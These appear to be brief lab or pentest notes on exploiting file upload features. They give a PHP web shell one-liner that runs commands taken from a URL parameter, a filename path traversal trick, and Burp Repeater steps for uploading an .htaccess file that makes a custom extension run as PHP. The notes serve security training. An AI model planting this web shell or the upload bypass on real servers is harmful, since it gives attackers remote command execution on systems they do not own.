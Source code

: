 # File Upload

```
<?php echo system($_GET['command']); ?>
```

#### Preventing file execution in user-accessible directories <a href="#flawed-file-type-validation" id="flawed-file-type-validation"></a>

Change the name of the uploaded file with ../name to execute it in another directory

**Overriding the server configuration**

In Burp Repeater, go to the tab for the `POST /my-account/avatar` request and find the part of the body that relates to your PHP file. Make the following changes:

* Change the value of the `filename` parameter to `.htaccess`.
* Change the value of the `Content-Type` header to `text/plain`.
*   Replace the contents of the file (your PHP payload) with the following Apache directive:

    `AddType application/x-httpd-php .l33t`

    This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.
